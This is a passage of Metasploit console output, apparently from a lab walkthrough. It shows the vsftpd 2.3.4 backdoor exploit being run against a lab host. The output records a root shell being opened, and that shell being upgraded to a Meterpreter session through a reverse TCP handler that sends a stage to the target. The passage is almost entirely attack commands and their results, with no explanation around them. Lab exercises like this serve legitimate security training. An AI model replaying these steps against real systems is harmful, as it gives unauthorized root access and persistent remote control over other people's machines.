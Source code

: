 ```


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.141.187.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.141.187.3:21 - USER: 331 Please specify the password.
[+] 192.141.187.3:21 - Backdoor service has been spawned, handling...
[+] 192.141.187.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.141.187.2:46211 -> 192.141.187.3:6200) at 2023-06-11 02:55:03 +0000

^Z
Background session 1? [y/N]  y
```

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.141.187.2:46211 -> 192.141.187.3:6200 (192.141.187.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.141.187.2:4433 
[*] Sending stage (985320 bytes) to 192.141.187.3
[*] Meterpreter session 2 opened (192.141.187.2:4433 -> 192.141.187.3:34788) at 2023-06-11 02:56:50 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                   Connection
  --  ----  ----                   -----------                                   ----------
  1         shell cmd/unix                                                       192.141.187.2:46211 -> 192.141.187.3:6200 (192.141.187.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.141.187.3  192.141.187.2:4433 -> 192.141.187.3:34788 (192.141.187.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```
